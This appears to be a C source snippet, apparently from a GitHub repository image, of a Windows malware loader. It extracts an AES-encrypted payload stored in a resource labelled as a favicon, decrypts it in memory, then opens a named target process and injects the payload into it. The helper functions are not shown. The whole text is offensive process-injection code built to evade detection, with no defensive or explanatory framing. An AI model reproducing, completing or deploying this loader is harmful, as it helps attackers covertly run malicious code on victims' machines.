 ```
#pragma comment (lib, "advapi32")
#include <psapi.h>

int main(void) {
    
	void * exec_mem;
	BOOL rv;
	HANDLE th;
    DWORD oldprotect = 0;
	HGLOBAL resHandle = NULL;
	HRSRC res;
	int pid = 0;
    HANDLE hProc = NULL;
	
	unsigned char * payload;
	unsigned int payload_len;
	
	
	// Extract payload from resources section
	res = FindResourceA(NULL, MAKEINTRESOURCE(FAVICON_ICO), RT_RCDATA);
	resHandle = LoadResource(NULL, res);
	payload = (char *) LockResource(resHandle);
	payload_len = SizeofResource(NULL, res);
	
	// Allocate some memory buffer for payload
	exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

	// Copy payload to new memory buffer
	RtlMoveMemory(exec_mem, payload, payload_len);
	
	// Decrypt payload
	AESDecrypt((char *) exec_mem, payload_len, payload_key, sizeof(payload_key));
	
	// Injection process starts here
	pid = Find("here you have to insert the name of the process you want to inject");
	
	if (pid) {
		// try to open target process
		hProc = OpenProcess( PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION | 
						PROCESS_VM_OPERATION | PROCESS_VM_READ | PROCESS_VM_WRITE,
						FALSE, (DWORD) pid);
		
		if (hProc != NULL) {
			Inject(hProc, exec_mem, payload_len);
			CloseHandle(hProc);
		}
	}

	return 0;
}
```
